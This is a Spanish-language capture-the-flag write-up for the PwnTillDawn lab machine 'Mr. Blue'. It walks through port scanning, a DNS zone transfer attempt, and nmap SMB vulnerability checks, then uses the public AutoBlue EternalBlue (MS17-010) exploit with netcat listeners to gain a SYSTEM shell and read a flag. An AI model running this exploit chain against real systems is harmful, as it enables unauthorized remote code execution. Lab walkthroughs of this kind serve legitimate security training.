


# WRITEUP Mr. Blue

### ESCANEO
#### 10.150.150.242	Windows	Easy
```
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1433/tcp  open  ms-sql-s
3389/tcp  open  ms-wbt-server
8089/tcp  open  unknown
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49197/tcp open  unknown
```
Como siempre, iniciamos escaneando los puertos abiertos de la box. A primera vista vemos varios puertos interesantes que son "comunes", el puerto 53,80, y 445.


### ENUMERACIÓN

Al ingresar al puerto 80, podemos ver una imagen como index



Al intentar un fuzzeo de directorios no nos arrojó nada, por lo tanto dejaremos de lado este sitio. Ahora pasaremos al puerto 53, y lo primero que se nos viene a la mente al ver el puerto 53 abierto es verificar si tiene algún dominio. Para ello utilizaremos la utilidad dig para realizar [ZONE TRANSFER](https://www.welivesecurity.com/la-es/2015/06/17/trata-ataque-transferencia-zona-dns/) pero no conseguimos nada.

```
dig axfr @10.150.150.242
; <<>> DiG 9.16.12-Debian <<>> axfr @10.150.150.242
; (1 server found)
;; global options: +cmd
;; Query time: 112 msec
;; SERVER: 10.150.150.242#53(10.150.150.242)
;; WHEN: mié mar 10 00:23:44 CST 2021
;; MSG SIZE  rcvd: 40
```

Ahora nos queda el puerto 445, para ello podemos intentar listar recursos compartidos o verificar si su versión tiene alguna vulnerabilidad publica. Para ello lanzaremos los scripts de nmap.

```
nmap 10.150.150.242 -p445 --script="smb-vuln*"
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-10 00:29 CST
Nmap scan report for 10.150.150.242
Host is up (0.11s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

Como podemos observar, es vulnerable a un RCE (Eternalblue CVE-2017-0143) .

### EXPLOTACIÓN 

Tenemos 2 maneras de explotar esta vulnerabilidad, utilizando Metasploit o realizandolo a "mano". En nuestro caso lo vamos a realizar a mano, y para ello encontré [este script](https://github.com/3ndG4me/AutoBlue-MS17-010).

Una vez descargado, nos vamos a la carpeta "shellcode" y ejecutamos el script sh. Llenamos la información y nos dará un par de binarios.




El siguiente paso será poner nc en escucha en los ambos puertos que configuramos en el paso anterior. 
Después queda solamente ejecutar el exploit de la siguiente manera:

```
┌─[root@parrot]─[~/pwntilldawn/mrblue/AutoBlue-MS17-010]
└──╼ #python eternalblue_exploit7.py 10.150.150.242 shellcode/sc_all.bin
```

Y tenemos shell.
```
c:\users\Administrator.GNBUSCA-W054\desktop>whoami
whoami
nt authority\system

c:\Users\Administrator.GNBUSCA-W054\Desktop>type FLAG34.txt
type FLAG34.txt
c2e9e102e55d5697ed2f9a7ea637
```


Contacto: [Linkedin](www.linkedin.com/in/JairR) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
